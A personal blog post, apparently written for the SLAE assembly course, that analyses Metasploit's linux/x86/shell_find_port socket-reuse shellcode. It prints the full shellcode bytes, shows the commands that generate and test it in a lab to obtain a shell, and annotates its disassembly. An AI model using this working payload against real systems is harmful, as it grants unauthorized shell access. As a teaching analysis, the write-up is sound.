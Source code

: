 ```yaml
---
title:  "[SLAE 5] Metasploit Shell Find Port"
categories: [SLAE]
---
```


![Logo](/assets/images/tux-root.png)

## Metasploit shell_find_port shellcode analysis

This post is part of the 5th assignment of the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) course and will analyse a Metasploit socket reuse shellcode: _`linux/x86/shell_find_port`_.  I've started by analysing the following payload: 
```bash
# msfpayload linux/x86/shell_find_port S
 
       Name: Linux Command Shell, Find Port Inline
     Module: payload/linux/x86/shell_find_port
    Version: 0
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 169
       Rank: Normal
 
Provided by:
  Ramon de C Valle <rcvalle metasploit.com>
 
Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
CPORT  60957            no        The local client port
 
Description:
  Spawn a shell on an established connection
```

So this is actually a **_port reuse shellcode_**: it will search for an already established connection (based on the local client port specified in CPORT variable) and spawn a shell over that connection. Nice! There is a great description of how this payload functions at [BlackHatLibrary](http://www.blackhatlibrary.net/Shellcode/Socket-reuse).

To test this payload we'll need:
* A server that listens for connections and also executes payloads 
* A client that will establish a connection with the server from a fixed local port, then send our metasploit shellcode.

We'll use the [socket-loader.c](http://www.blackhatlibrary.net/Shellcode/Appendix#socket-loader.c) and [socket-reuse-send.c](http://www.blackhatlibrary.net/Shellcode/Appendix#socket-reuse-send.c) from BlackhatLibrary. We'll first compile and start the server: 

```bash
$ gcc -Wall -o socket-loader socket-loader.c 
$ ./socket-loader 7001
```
 
Then generate the metasploit payload and integrate it into the socket-reuse-send source file: 
```bash
# msfpayload linux/x86/shell_find_port CPORT=4444 C
/*
 * linux/x86/shell_find_port - 62 bytes
 * http://www.metasploit.com
 * VERBOSE=false, CPORT=4444, PrependSetresuid=false, 
 * PrependSetreuid=false, PrependSetuid=false, 
 * PrependSetresgid=false, PrependSetregid=false, 
 * PrependSetgid=false, PrependChrootBreak=false, 
 * AppendExit=false, InitialAutoRunScript=, AutoRunScript=
 */
unsigned char buf[] = 
"\x31\xdb\x53\x89\xe7\x6a\x10\x54\x57\x53\x89\xe1\xb3\x07\xff"
"\x01\x6a\x66\x58\xcd\x80\x66\x81\x7f\x02\x11\x5c\x75\xf1\x5b"
"\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73"
"\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b"
"\xcd\x80";
 
# gcc -Wall -o socket-reuse-send socket-reuse-send.c 
```

The syntax for client is as follows:
```bash
./socket-reuse-send <server_ip> <server_port> <client_ip> <local_client_port>
```

So the next line will connect to the server listening on port 7001 and send the payload generated earlier from the local port 4444. The payload will then be executed by the server and we'll get a shell: 

```bash
# ./socket-reuse-send 192.168.56.1 7001 192.168.56.101 4444
 [*] Connecting to 192.168.56.1
 [*] Sending payload
whoami
liv
```

So the payload is working as expected, now onto analysis. We'll first try to use the __*`sctest`*__ binary from __*`libemu`*__: 
```
# msfpayload linux/x86/shell_find_port CPORT=4444 R > shellcode.bin
$ cat shellcode.bin | /opt/libemu/bin/sctest -vvv -S -s 1000 -G shellcode.dot
$ dot shellcode.dot -T png -o shellcode.png
```

[![](/assets/images/libemu-small.png)](/assets/images/libemu.png)

This way we can get a feeling about how this shellcode is functioning. As we'll see later, there is a final piece missing from the picture, because the sctest emulator is not leaving the loop (marked with red arrows). We'll use a disassembler to examine all the instructions: 
```bash
$ echo -ne "\x31\xdb\x53\x89\xe7\x6a\x10\x54\x57\x53\x89\xe1\xb3\x07\xff\x01\x6a\x66\x58\xcd\x80\x66\x81\x7f\x02\x11\x5c\x75\xf1\x5b\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" | ndisasm -b 32 -
```

First operation done by a server is, as seen in the picture, to execute _`getpeername`_ in a loop. This will try to obtain information about a peer connected to a specific file descriptor. 
```c
int getpeername(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
00000000  31DB              xor ebx,ebx
00000002  53                push ebx
00000003  89E7              mov edi,esp
00000005  6A10              push byte +0x10     ;  addrlen
00000007  54                push esp            ; *addrlen
00000008  57                push edi            ; *addr
00000009  53                push ebx            ; sockfd to search
0000000A  89E1              mov ecx,esp
0000000C  B307              mov bl,0x7          ; int call - SYS_GETPEERNAME (7)
getpeername_loop:
0000000E  FF01              inc dword [ecx]     ; increment fd to be checked
00000010  6A66              push byte +0x66     ; sys_socketcall
00000012  58                pop eax
00000013  CD80              int 0x80
```

The next part checks for a specific condition for any file descriptor found: it will verify the source port and if it's different than 4444 we'll increment the file descriptor and re-execute the loop: 
```c
; 115c(hex) = 4444 (dec)
; compare port
; struct sockaddr_in {
    short            sin_family;   // e.g. AF_INET, AF_INET6
    unsigned short   sin_port;     // e.g. htons(3490)
    struct in_addr   sin_addr;     // see struct in_addr, below
    char             sin_zero[8];  // zero this if you want to
};
00000015  66817F02115C      cmp word [edi+0x2],0x5c11
; if not, jump to getpeername_loop
0000001B  75F1              jnz 0xe
```

In case a connection was found with the source port equal to 4444, it will execute in a loop 3 _`dup2`_ calls, and duplicate stdin, stdout and stderr to the found file descriptor: 
```c
0000001D  5B                pop ebx         ; old fd parameter;  
0000001E  6A02              push byte +0x2  ; 
00000020  59                pop ecx         ; new fd
dup2_loop:
00000021  B03F              mov al,0x3f     ; sys_dup2 syscall
00000023  CD80              int 0x80
00000025  49                dec ecx
00000026  79F9              jns 0x21        ; if not -1, jump to dup2_loop label
The final piece of the shellcode executes /bin/sh: 
00000028  50                push eax
00000029  682F2F7368        push dword 0x68732f2f   ; 'hs//'
0000002E  682F62696E        push dword 0x6e69622f   ; 'nib/'
00000033  89E3              mov ebx,esp     ; '/bin/sh\x00'
00000035  50                push eax
00000036  53                push ebx
00000037  89E1              mov ecx,esp     ; address of the parameters array
00000039  99                cdq
0000003A  B00B              mov al,0xb      ; sys_execve
0000003C  CD80              int 0x80
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
